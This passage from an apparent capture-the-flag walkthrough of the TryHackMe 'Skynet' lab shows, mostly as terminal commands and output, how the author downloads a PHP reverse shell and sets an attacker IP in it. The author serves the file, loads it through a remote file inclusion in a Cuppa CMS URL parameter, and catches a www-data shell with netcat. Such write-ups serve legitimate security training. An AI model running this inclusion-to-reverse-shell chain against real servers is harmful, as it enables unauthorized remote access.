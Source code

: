 ```text
root@kali:/home/kali/thm/skynet# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2021-02-16 22:37:14--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘php-reverse-shell.php’
php-reverse-shell.php                100%[============>]   5.36K  --.-KB/s    in 0s
2021-02-16 22:37:14 (103 MB/s) - ‘php-reverse-shell.php’ saved [5491/5491]

root@kali:/home/kali/thm/skynet# nano php-reverse-shell.php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.6.200';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

The only thing I changed in the file is the IP to be my current one on tun0. Now I start a webserver so I can get to the file from the skynet server:

```text
root@kali:/home/kali/thm/skynet# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we can browse to the Cuppa URL again, this time including our reverse shell hosted on the webserver on my Kali machine:

```text
http://10.10.102.194/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.6.200:8000/php-reverse-shell.php
```

If we switch to a waiting Netcat session we see we are now connected:

```text
root@kali:/home/kali/thm/skynet# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.14.6.200] from (UNKNOWN) [10.10.102.194] 35842
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 16:47:11 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
